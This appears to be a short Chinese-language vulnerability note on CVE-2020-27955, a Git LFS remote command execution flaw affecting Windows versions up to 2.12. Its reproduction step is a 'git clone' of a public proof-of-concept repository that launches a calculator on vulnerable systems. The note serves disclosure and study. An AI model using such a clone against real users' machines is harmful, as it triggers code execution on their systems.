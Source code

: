 # Git-LFS 远程命令执行漏洞 CVE-2020-27955

# Git-LFS 远程命令执行漏洞 CVE-2020-27955

## 漏洞描述

Git LFS 是 Github 开发的一个 Git 的扩展，用于实现 Git 对大文件的支持

一些受影响的产品包括Git，GitHub CLI，GitHub Desktop，Visual Studio，GitKraden，SmartGit，Sourcetree等

该漏洞影响仅windows平台

## 漏洞影响

```
Git-LFS（git-lfs）<= 2.12
```

## 漏洞复现

运行下列的命令，如果版本在影响范围则会弹出计算器

```plain
git clone https://github.com/r00t4dm/CVE-2020-27955
```

![1](/images/202202090053405.png)

![2](/images/202202090053009.png)

## 漏洞POC

```plain
https://github.com/r00t4dm/CVE-2020-27955
```


